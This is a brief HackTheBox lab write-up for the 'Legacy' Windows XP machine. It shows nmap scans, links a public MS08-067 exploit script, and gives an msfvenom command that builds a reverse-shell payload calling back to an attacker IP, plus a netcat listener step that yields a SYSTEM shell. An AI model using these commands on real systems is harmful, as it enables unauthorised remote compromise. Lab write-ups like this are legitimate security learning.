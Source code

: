 ```yaml
---
title: "HackTheBox - WriteUp 21"
date: 2019-06-14T14:07:30+08:00
description: "HackTheBox 练手 - Legacy MS08-067"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Legacy

As the name suggests, Running a Legacy Windows XP.

Nmap Scan using: `nmap -A -O -Pn -p1-65535 -oN legacy.namp 10.10.10.4`, Found: 139,445 without workgroup listing permission.

## Root

Do more precise OS system version detection: `nmap -p 139,445 --script-args=usafe=1 --script smb-os-discovery -oN detectos.nmap 10.10.10.4`.

As for old OS, just think about ms08-067, here we found it: https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

Generate payload: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.80 LPORT=15500 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows > shellcode`

Modify the payload inside Python script, Then run: `python2 ./ms08-067.py 10.10.10.4 7 445`

Don't forget to setup netcat on Port 15500. You'll get a `NT AUTHORITY\SYSTEM` shell.

# Safe


